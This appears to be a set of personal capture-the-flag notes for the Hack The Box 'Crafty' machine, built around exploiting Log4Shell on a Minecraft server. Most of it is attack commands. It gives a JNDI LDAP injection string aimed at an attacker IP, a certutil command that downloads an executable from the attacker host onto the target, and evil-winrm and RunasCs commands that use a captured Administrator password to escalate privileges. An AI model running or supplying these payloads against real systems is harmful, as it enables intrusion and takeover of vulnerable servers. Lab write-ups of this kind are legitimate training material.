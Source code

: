 ## NMAP


### IP - 10.10.11.249

${jndi:ldap://10.10.14.107:1389/a}

upload file: certutil -urlcache -f http://10.10.14.107:4245/expl.exe c:\Users\svc_minecraft\server\logs\expl.exe


.\RunasCs.exe Administrator s67u84zKq8IXw expl.exe

```
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.46s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Crafty - Official Website
| http-methods: 
|_  Potentially risky methods: TRACE
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100) ( CVE-2021–44228 )
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 527.64 seconds
```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 527.64 seconds




### Tools Link: 

log4j: https://github.com/kozmer/log4j-shell-poc

requirements for log4j

```
#Copy in the '/log4j-shell-poc' directory
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

tar -xf jdk-8u181-linux-x64.tar.gz #To extract

mv jdk1.8.0_181 jdk1.8.0_20 #poc.py is searching for this filename

````

### Minecraft-client networking library in Python

https://github.com/ammaraskar/pyCraft?source=post_page-----316a735a306d--------------------------------


### Let’s try remoting in with evil-winrm.

evil-winrm -i <target IP> -u Administrator -p <password>
evil-winrm -i 10.10.11.249 -u Administrator -p 's67...'

### RunasCs - Csharp and open version of windows builtin runas.exe

https://github.com/antonioCoco/RunasCs

There is a tool called ‘RunasCs’ which will allow us to run processes with different permissions that the ones we currently have. The goal is to initiate an Administrator shell from our current user ‘svc_minecraft’.

### .\RunasCs.exe Administrator s67...pass expl2.exe


https://www.hackthebox.com/achievement/machine/296157/587
